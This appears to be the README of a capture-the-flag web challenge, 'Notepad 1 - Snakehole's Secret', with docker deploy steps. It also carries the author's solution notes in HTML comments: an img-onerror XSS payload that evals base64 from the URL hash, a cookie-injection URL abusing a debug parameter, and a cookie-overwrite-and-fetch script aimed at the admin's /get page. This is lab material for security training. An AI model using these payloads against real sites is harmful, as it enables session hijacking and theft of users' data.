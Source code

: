 Name  : Notepad 1 - Snakehole's Secret

Desc  : Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  

Deploy: 
- docker build -t notepad1 . 
- docker run notepad1


<!-- Payload my end

<img src=x onerror=eval(atob(location.hash.substr(1)))></img>
 -->

<!-- Admin Side : Window.Open to set cookie

http://localhost:3000/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get
-->

<!-- Admin Side : Window.Open to xss 

document.cookie="id=47ed733b8d10be225eceba344d533586;expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;";fetch('/get').then(response=>response.text()).then(data=>console.log(data))


http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get;%22;document.cookie=x;fetch('/get').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->
